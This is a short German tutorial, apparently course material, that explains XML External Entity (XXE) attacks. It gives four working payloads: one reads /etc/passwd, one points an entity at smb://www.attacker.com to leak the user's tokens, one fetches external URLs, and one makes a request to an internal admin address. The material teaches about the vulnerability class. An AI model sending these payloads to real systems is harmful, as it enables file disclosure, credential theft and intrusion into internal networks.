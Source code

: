 # XML External Entities

## Grundproblem

* XML Dateien müssen serverseitig bearbeitet werden
* XML Parser sind komplex
* Es können Remote Ressourcen eingebunden werden

## Beispiel: reading files

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

## Beispiel: reading Shares

Es werden die Token des aktuellen Benutzers verwendet.

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "smb://www.attacker.com" >]>
<foo>&xxe;</foo>
```


## Beispiel: reading URLs

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://www.seite-gegen-das-verbotsgesetz.com/text.txt" >]>
<foo>&xxe;</foo>
```

## Beispiel: reading URLs

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://192.168.0.1/admin/do-something" >]>
<foo>&xxe;</foo>
```
